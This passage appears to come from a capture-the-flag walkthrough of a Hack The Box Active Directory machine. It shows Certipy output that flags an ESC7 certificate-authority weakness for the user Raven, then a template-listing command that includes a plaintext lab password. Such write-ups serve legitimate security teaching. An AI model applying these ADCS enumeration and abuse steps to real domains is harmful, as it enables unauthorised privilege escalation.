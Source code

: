 ```
[+] Connecting to 10.10.11.236:80
[*] Saved BloodHound data to '20240909024522_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20240909024522_Certipy.txt'
[*] Saved JSON output to '20240909024522_Certipy.json'
```

Upon looking at the `20240909024522_Certipy.txt` File, We now have something to try out.
```
# cat 20240909024522_Certipy.txt         
Certificate Authorities
  0
    CA Name                             : manager-DC01-CA
    DNS Name                            : dc01.manager.htb
    Certificate Subject                 : CN=manager-DC01-CA, DC=manager, DC=htb
    Certificate Serial Number           : 5150CE6EC048749448C7390A52F264BB
    Certificate Validity Start          : 2023-07-27 10:21:05+00:00
    Certificate Validity End            : 2122-07-27 10:31:04+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : MANAGER.HTB\Administrators
      Access Rights
        Enroll                          : MANAGER.HTB\Operator
                                          MANAGER.HTB\Authenticated Users
                                          MANAGER.HTB\Raven
        ManageCertificates              : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        ManageCa                        : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven
    [!] Vulnerabilities
      ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions
Certificate Templates                   : [!] Could not find any certificate templates
```
Cool We got something better. Our target is vulnerable with `ESC7` ADCS Attack. 
###### `Listing Certificate Templates`
```
# certipy ca -ca 'manager-DC01-CA' -u 'raven@dc01.manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236  -list-templates
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Enabled certificate templates on 'manager-DC01-CA':
    SubCA
    DirectoryEmailReplication
    DomainControllerAuthentication
    KerberosAuthentication
    EFSRecovery
    EFS
    DomainController
    WebServer
    Machine
    User
    Administrator
```
